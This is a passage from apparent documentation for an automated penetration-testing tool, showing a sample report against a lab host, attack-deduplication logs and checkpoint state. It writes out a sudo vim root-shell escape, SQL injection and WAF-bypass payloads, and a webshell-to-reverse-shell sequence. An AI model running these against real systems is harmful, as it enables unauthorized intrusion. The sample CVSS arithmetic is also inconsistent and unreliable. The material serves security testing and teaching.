| 4.0-6.9 | Medium | Requires specific conditions, moderate impact |
| 0.1-3.9 | Low | Difficult to exploit, minimal impact |

**Example CVSS calculation:**

```text
Vulnerability: SQL Injection in login form

Attack Vector: Network (accessible from internet) = 0.85
Attack Complexity: Low (no special conditions) = 0.77
Privileges Required: None (unauthenticated) = 0.85
User Interaction: None = 0.85

Impact:
- Confidentiality: High (can read all data) = 0.56
- Integrity: High (can modify data) = 0.56
- Availability: Low (can crash, but not DoS) = 0.22

CVSS Score: 9.8 (Critical)
```

### Example Report Output

```markdown
# Penetration Test Report: 10.10.10.10

## Executive Summary

| Metric | Value |
|--------|-------|
| Overall Risk | CRITICAL |
| Vulnerabilities Found | 7 |
| Critical | 2 |
| High | 3 |
| Medium | 2 |
| Initial Access Achieved | Yes |
| Root Access Achieved | Yes |
| Time to Compromise | 23 minutes |

### Key Findings

1. **Anonymous FTP Access** - Exposed credentials in backup files
2. **SQL Injection** - WordPress plugin vulnerable to authentication bypass
3. **Sudo Misconfiguration** - www-data can run vim as root

## Attack Narrative

### Phase 1: Reconnaissance
- Full port scan revealed 6 open services
- FTP (21), SSH (22), HTTP (80), HTTPS (443), SMB (445), MySQL (3306)

### Phase 2: Initial Access
1. Connected to FTP anonymously
2. Downloaded backup.tar.gz containing wp-config.php
3. Extracted database credentials: wpuser:Wp@ssw0rd123!

### Phase 3: Exploitation
1. Logged into WordPress admin panel
2. Uploaded PHP webshell via Media Library
3. Obtained reverse shell as www-data

### Phase 4: Privilege Escalation
1. Ran sudo -l, found vim allowed without password
2. Executed: sudo vim -c ':!/bin/bash'
3. Obtained root shell

## Vulnerabilities

### CRITICAL: Anonymous FTP with Sensitive Data
- **CVSS**: 9.1
- **Location**: 10.10.10.10:21
- **Description**: FTP server allows anonymous access and contains backup files with credentials
- **Remediation**: Disable anonymous FTP, remove sensitive files, rotate all exposed credentials

### CRITICAL: Sudo Misconfiguration
- **CVSS**: 8.8
- **Location**: /etc/sudoers
- **Description**: www-data user can execute vim as root without password
- **Remediation**: Remove vim from sudoers, implement principle of least privilege

## Recommendations

### Immediate (24-48 hours)
1. Disable anonymous FTP access
2. Remove sensitive files from FTP
3. Rotate all exposed credentials
4. Fix sudo configuration

### Short-term (1-2 weeks)
1. Implement Web Application Firewall
2. Update WordPress and all plugins
3. Enable database query logging

### Long-term (1-3 months)
1. Implement network segmentation
2. Deploy intrusion detection system
3. Conduct security awareness training
```

---

## Handling Failures

### What Happens When Attacks Fail?

Not every attack succeeds. Clicky handles failures gracefully:



### Attack Deduplication

The system tracks what's been tried to avoid wasting time:

```json
{
  "attack_history": [
    {
      "timestamp": "2024-01-15T14:35:00Z",
      "target": "10.10.10.10:80",
      "technique": "sqli",
      "payload": "' OR '1'='1",
      "result": "blocked_by_waf",
      "notes": "WAF detected, try bypass"
    },
    {
      "timestamp": "2024-01-15T14:36:00Z",
      "target": "10.10.10.10:80",
      "technique": "sqli",
      "payload": "' /*!OR*/ '1'='1",
      "result": "success",
      "notes": "WAF bypass successful"
    }
  ]
}
```

---

## State and Checkpoints

### Why Checkpoints Matter

Long-running operations can fail. Checkpoints let us **resume from the last good state** instead of starting over.



### Checkpoint Contents

Each checkpoint saves the complete state:

```json
{
  "checkpoint_id": "cp_002_shell_obtained",
  "created_at": "2024-01-15T14:45:00Z",

  "session_state": {
    "target": "10.10.10.10",
    "phases_completed": ["reconnaissance", "analysis", "exploitation"],
    "current_phase": "privilege_escalation",
    "access_level": "user",
    "shell_user": "www-data"
  },

  "discoveries": {
    "services": ["ftp", "ssh", "http", "mysql"],
    "credentials": [
      {"user": "admin", "pass": "Summer2024!", "source": "ftp_backup"}
    ],
    "vulnerabilities": [
      {"type": "sqli", "location": "/login.php", "exploited": true}
    ]
  },

  "attack_history": [
    {"technique": "ftp_anonymous", "result": "success"},
    {"technique": "sqli_login", "result": "success"},
    {"technique": "file_upload", "result": "success"}
  ],

  "shell_info": {
    "type": "reverse_tcp",
    "local_port": 4444,
    "stability": "stable"
  }
}
```

### Recovery Process


